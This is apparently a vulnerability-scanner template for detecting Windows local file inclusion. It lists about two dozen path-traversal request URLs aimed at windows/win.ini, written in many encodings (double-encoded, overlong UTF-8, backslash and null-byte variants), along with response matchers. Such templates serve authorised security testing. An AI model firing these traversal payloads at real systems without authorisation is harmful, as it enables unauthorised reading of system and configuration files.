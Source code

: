 # Windows - Local File Inclusion

## Description

- Windows is vulnerable to local file inclusion because of searches for /windows/win.ini on passed URLs.

- severity - high
- tags - azure,windows,lfi,generic

## Requests

- Method - GET

### URL

- {{BaseURL}}/..0x5c..0x5c..0x5c..0x5c..0x5c..0x5c..0x5c..0x5cwindows/win.ini
- {{BaseURL}}/./../../../../../../../../../../windows/win.ini
- {{BaseURL}}/.%252e/.%252e/.%252e/.%252e/.%252e/.%252e/.%252e/windows/win.ini
- {{BaseURL}}/.%5C%5C./.%5C%5C./.%5C%5C./.%5C%5C./.%5C%5C./.%5C%5C./windows/win.ini
- {{BaseURL}}/%2e%2e%2e%2e%2e%2e%2e%2e%2e%2e%2e%2e%2e%2e%2e%2ewindows/win.ini
- {{BaseURL}}/%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5cwindows/win.ini
- {{BaseURL}}/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/windows/win.ini
- {{BaseURL}}/?redirect=..%2f..%2f..%2f..%2fwindows/win.ini
- {{BaseURL}}/?page=..%2f..%2f..%2f..%2f..%2fwindows/win.ini
- {{BaseURL}}/?url=..%2f..%2f..%2f..%2f..%2f..%2fwindows/win.ini
- {{BaseURL}}/..///////..////..//////windows/win.ini
- {{BaseURL}}/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../windows/win.ini
- {{BaseURL}}/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/windows/win.ini
- {{BaseURL}}/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/windows/win.ini%00
- {{BaseURL}}/index.php?page=windows/win.ini
- {{BaseURL}}/index.php?page=windows/win.ini%00
- {{BaseURL}}/index.php?page=../../windows/win.ini
- {{BaseURL}}/index.php?page=....//....//windows/win.ini
- {{BaseURL}}/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/windows/win.ini
- {{BaseURL}}/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/windows/win.ini
- {{BaseURL}}/../../../../../../../../../windows/win.ini
- {{BaseURL}}/%255c%255c..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/windows/win.ini

### Matchers

**Type - word**

- part - body
- words
  1. bit app support
  2. fonts
  3. extensions
- condition - and

---